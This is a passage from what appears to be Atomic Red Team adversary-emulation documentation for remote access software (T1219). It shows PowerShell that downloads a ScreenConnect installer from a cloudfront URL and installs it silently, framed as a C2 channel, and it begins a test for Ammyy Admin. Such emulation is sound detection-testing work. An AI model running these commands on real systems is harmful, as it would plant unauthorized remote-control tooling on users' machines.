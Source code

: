 #### Cleanup Commands:

```powershell
try{"$PathToAtomicsFolder/T1219/bin/GoToCleanup.ps1"} catch{}
```

<br/>
<br/>

## Atomic Test #5 - ScreenConnect Application Download and Install on Windows

An adversary may attempt to trick the user into downloading ScreenConnect for use as a C2 channel. Download of ScreenConnect installer will be in the Downloads directory.
Msiexec will be used to quietly insall ScreenConnect.

**Supported Platforms:** Windows

**auto_generated_guid:** 4a18cc4e-416f-4966-9a9d-75731c4684c0

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$installer = "C:\Users\$env:username\Downloads\ScreenConnect.msi"
Invoke-WebRequest -OutFile $installer "https://d1kuyuqowve5id.cloudfront.net/ScreenConnect_21.11.4237.7885_Release.msi"
msiexec /i $installer /qn
```

#### Cleanup Commands:

```powershell
$installer = "C:\Users\$env:username\Downloads\ScreenConnect.msi"
msiexec /x $installer /qn
```

<br/>
<br/>

## Atomic Test #6 - Ammyy Admin Software Execution

An adversary may attempt to trick the user into downloading Ammyy Admin Remote Desktop Software for use as a C2 channel.
Upon successful execution, Ammyy Admin will be executed.

**Supported Platforms:** Windows

**auto_generated_guid:** 0ae9e327-3251-465a-a53b-485d4e3f58fa

#### Inputs:

| Name             | Description                    | Type | Default Value                                                 |
| ---------------- | ------------------------------ | ---- | ------------------------------------------------------------- |
| Ammyy_Admin_Path | Path of Ammyy Admin executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;ammyy.exe |
